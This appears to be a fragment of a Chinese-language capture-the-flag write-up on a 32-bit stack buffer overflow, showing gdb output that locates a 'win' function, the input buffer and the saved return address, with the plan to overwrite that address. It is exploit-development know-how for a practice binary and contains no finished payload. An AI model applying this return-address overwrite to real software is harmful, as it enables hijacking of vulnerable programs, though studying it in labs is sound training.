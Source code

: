 

disass win 找 win 的 address(目標)
```
0x080491f6
```

設斷點在 gets 後，`x/60xw $esp`
```
0xffffd030:     0xffffd040      0xf7fb1000      0xf7fb1dbc      0x08049291
0xffffd040:     0x61616161      0x61616161      0x61616161      0x0804c000
0xffffd050:     0xf7fb1000      0xf7fb1000      0xffffd088      0x08049327
0xffffd060:     0x0804a0a0      0x0804c000      0xffffd088      0x0804932f
0xffffd070:     0x00000001      0xffffd134      0xffffd13c      0x000003e8
```
bt
```
#0  0x080492a3 in vuln ()
#1  0x0804932f in main ()
```

我們輸入的字串的 address 從 0xffffd040 開始， return address (0x0804932f) 被放在0xffffd06c

把 0xffffd06c 蓋成 0x080491f6

